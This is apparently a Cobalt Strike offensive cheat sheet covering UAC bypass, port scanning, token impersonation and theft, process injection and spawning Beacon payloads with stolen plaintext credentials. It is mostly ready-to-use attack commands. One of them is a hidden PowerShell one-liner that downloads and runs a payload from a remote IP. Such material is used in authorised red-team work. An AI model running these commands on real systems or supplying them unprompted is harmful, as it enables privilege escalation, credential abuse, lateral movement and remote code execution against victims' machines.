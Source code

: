 ## UAC Bypass
- https://github.com/cobalt-strike/ElevateKit
#### UAC bypass
- Typing `elevate` and then tab lets you cycle through the methods.
```
elevate <METHOD> <LISTENER>
elevate uac-schtasks tcp-local
```

#### UAC bypass method 2 runasadmin
```
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
connect localhost 4444
```

## Lateral Movement

#### Portscan
```
portscan <IP OR RANGE> <PORTS>
```

### User impersonation
#### Make token - runas other user
```
make_token <DOMAIN>\<USER> <PASSWORD>
```

#### Rev2self
- Drops impersonation and will undo the make token
```
rev2self
```

#### Steal token
- If a user is running a process on the system, we can steal its process
```
steal_token <PID>
````

#### Inject payload into process
```
inject <PID> <ARCH> <BEACON>
```

#### Spawnas
- Will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it.
- Must be run from a folder the user has access to.
- This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.
```
make_token <DOMAIN>\<USER> <PASSWORD>
spawnas <DOMAIN>\<USER> <PASSWORD> <BEACON>
```
